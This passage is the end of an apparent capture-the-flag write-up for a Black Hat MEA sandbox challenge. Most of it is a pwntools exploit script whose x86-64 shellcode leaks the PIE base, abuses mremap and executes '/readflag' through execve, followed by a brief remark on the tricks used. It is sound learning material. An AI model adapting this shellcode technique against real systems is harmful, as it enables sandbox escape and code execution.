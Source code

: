 ```python
    syscall
    cmp al, 0
    jne loop
    """
    shellcode += asm(leak_pie)

    set_var = """
    sub rdi, 0x4c00
    add rdi, 0x2000
    mov rbx, rdi
     
    mov rdi, 0xc0de000
    mov rsi, 0x1000
    mov rdx, 0x2000
    mov rax, 0x19
    syscall

    mov rsp, 0xc0de000 + 0x1000 + 0x50 + 0x10
    mov rdi, 0x0000000000000067
    push rdi
    mov rdi, 0x616c66646165722f
    push rdi
    mov rdi, rsp

    sub rdi, 0x50
    mov rdx, 0x1000
    mov r10, 3
    mov r8, rbx
    mov rax, 0x19
    syscall
    """

    shellcode += asm(set_var)

    win = """
    mov rdi, rbx
    add rdi, 0x50
    mov rsi, 0
    mov rdx, 0
    mov rax, 0x3b
    syscall
    """

    shellcode += asm(win)

    p = conn()

    p.recvuntil(b'shellcode: ')

    payload = shellcode.ljust(0xfd7, b'\x90')

    p.sendline(payload)
    p.interactive()

run()
```

![babysbxflag](/assets/blackhatmea/zerodaytea/babysbxflag.webp)
*flag redacted on local*

Pretty fun shellcoding challenge that I ended up making a bit more difficult than necessary. The `brk` + `nanosleep` and `mremap` tricks are good ones to remember for the future though!
